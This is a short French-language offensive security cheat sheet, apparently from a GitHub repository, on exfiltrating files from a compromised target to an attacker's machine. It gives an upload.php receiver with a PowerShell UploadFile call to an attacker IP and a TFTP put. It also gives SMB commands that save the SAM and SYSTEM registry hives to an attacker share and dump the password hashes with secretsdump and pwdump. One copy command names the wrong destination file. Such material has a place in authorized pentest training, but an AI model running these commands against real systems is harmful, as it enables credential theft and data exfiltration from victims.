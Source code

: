 # Powershell 
De la machine cible vers la machine attaquante en utilisant le fichier `upload.php`

```sh
sudo mkdir /var/www/uploads
sudo chown www-data:www-data upload
sudo php -S localhost:80
```

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```sh
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.128/upload.php', 'remote_file.ext')
```

---
# TFTP

```sh
sudo ftpd --daemon --port 69 /var/www/uploads
```

```sh
tftp -i <attack-ip> put remote_file.ext
```

---
# SMB
Récupérer les fichiers contenant les hachages de mot de passe, les renvoyer à notre machine attaquante, puis vider les hachages localement:

```sh
impacket-smbserver share path -smb2support -comment 'Hacker Ber1y, Get your data'
```

```c
reg.exe save HKLM\SAM sam.bak
reg.exe save HKLM\SYSTEM system.bak
```

```c
move sam.bak \\attack-ip\share\sam.bak
move system.bak \\attack-ip\share\sam.bak
```

Ou 

```c
reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak
reg.exe save HKLM\SYSTEM \\ATTACKING_IP\share\system.bak
```

Dump hashs

```sh
secretsdump.py -sam sam.bak -system system.bak LOCAL
```

```
/usr/share/creddump7/pwdump.py SYSTEM SAM
```